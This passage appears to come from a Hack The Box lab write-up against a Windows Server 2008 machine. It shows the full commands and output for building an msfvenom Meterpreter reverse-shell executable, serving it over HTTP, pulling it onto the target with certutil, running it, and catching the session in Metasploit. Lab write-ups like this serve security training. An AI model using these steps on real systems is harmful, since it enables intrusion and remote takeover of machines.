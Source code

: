 ```yaml
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.93
```

Although the OS(Windows Server 2008) is quite outdated, there's no hotfix applied here.

### Find exploits using `meterpreter`'s exploit-suggester

To run `multi/recon/local_exploit_suggester`, I opened another meterpreter shell.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=9001 -f exe -o rshell.exe     
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: rshell.exe
                                                                           
┌──(kali㉿kali)-[~/htb]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.93 - - [12/Jan/2025 19:29:17] "GET /rshell.exe HTTP/1.1" 200 -
10.10.10.93 - - [12/Jan/2025 19:29:18] "GET /rshell.exe HTTP/1.1" 200 -
```

On target's shell : 
```bash
c:\Users\merlin\Documents>certutil.exe -urlcache -split -f http://10.10.14.15:8000/rshell.exe
certutil.exe -urlcache -split -f http://10.10.14.15:8000/rshell.exe
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.

c:\Users\merlin\Documents>.\rshell.exe
.\rshell.exe
```

On Kali :

```bash
┌──(kali㉿kali)-[~/htb]
└─$ msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.15
LHOST => 10.10.14.15
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.15:9001 
[*] Sending stage (176198 bytes) to 10.10.10.93
[*] Meterpreter session 1 opened (10.10.14.15:9001 -> 10.10.10.93:49164) at 2025-01-12 19:30:09 +0000

meterpreter >

<SNIP>

```